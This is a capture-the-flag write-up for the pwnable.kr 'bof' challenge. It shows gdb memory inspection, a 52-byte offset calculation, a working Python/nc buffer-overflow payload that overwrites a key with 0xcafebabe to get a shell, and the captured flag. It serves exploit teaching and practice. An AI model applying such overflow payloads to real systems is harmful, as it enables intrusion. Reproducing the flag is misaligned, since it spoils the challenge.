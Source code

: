 # bof

![](http://pwnable.kr/img/bof.png)

# Problem

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

# Play

After deassemble `bof`, found it enabled stack protection, thus we compile and debug in the following way.

```
$ gcc -g -m32 bof.c -fstack-protector
$ gdb a.out
(gdb) b 8
Breakpoint 1 at 0x8048532: file bof.c, line 8.
(gdb) r
Starting program: /home/delta/tmp/a.out
overflow me : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

Breakpoint 1, func (key=-559038737) at bof.c:8
8               if(key == 0xcafebabe){
    (gdb) x/20x overflowme
    0xffffc7ec:     0x58585858      0x58585858      0x58585858      0x58585858
    0xffffc7fc:     0x58585858      0x58585858      0x58585858      0xff005858
    0xffffc80c:     0x86525300      0xffffcb04      0x0000002f      0xffffc838
    0xffffc81c:     0x0804858f      0xdeadbeef      0xffffc8e4      0xffffc8ec
    0xffffc82c:     0xf7e405ad      0xf7fb73c4      0xffffc850      0x00000000
```

As we can see, `0xdeadbeef` is 52 bytes away from `&overflowme`.
Thus we need to overwrite 52bytes after `overflowme` to `0xcafebabe`.

# Flag

```
$ (python -c 'print "X"*52+"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
cat flag
daddy, I just pwned a buFFer :)
```
